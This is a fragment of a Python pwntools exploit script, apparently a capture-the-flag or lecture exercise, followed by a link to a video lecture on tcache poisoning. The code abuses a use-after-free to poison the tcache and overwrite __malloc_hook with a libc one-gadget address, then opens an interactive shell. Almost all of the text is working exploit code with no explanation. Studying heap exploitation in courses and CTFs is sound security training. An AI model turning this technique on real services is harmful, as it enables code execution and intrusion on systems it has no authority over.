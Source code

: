 ```python
   io.sendlineafter(b"> ", b"2")  
   io.sendlineafter(b"> ", b"2")  
   io.sendlineafter(b"> ", b"1")  
   io.sendafter(b": ", data)
   io.sendlineafter(b": ", b"y")  
  
  
def reconstruct(byte_str, index: int, r_byte: int) -> bytes:  
   bytes_list = [p8(byte) for byte in byte_str]  
   bytes_list[index] = p8(r_byte)  
   return b"".join(bytes_list)
   #payload = payload[:-2] + b"A" 

  
payload = reconstruct(p64(libc.sym.__malloc_hook), 6, 0x42)  
uaf(payload)

io.sendlineafter(b"> ", b"1")  
io.sendlineafter(b": ", b"94")  
io.sendlineafter(b": ", b"pwnpope")  

io.sendlineafter(b"> ", b"1")  
io.sendlineafter(b": ", b"94")  
io.sendlineafter(b": ", p64(libc.address+0x4f432))  

io.interactive()
```

[video lecture](https://capture.udel.edu/media/tcache+poisoning+(Write+What+Where+via+UAF)/1_sjkqd9ay/290632652) - write what where via UAF
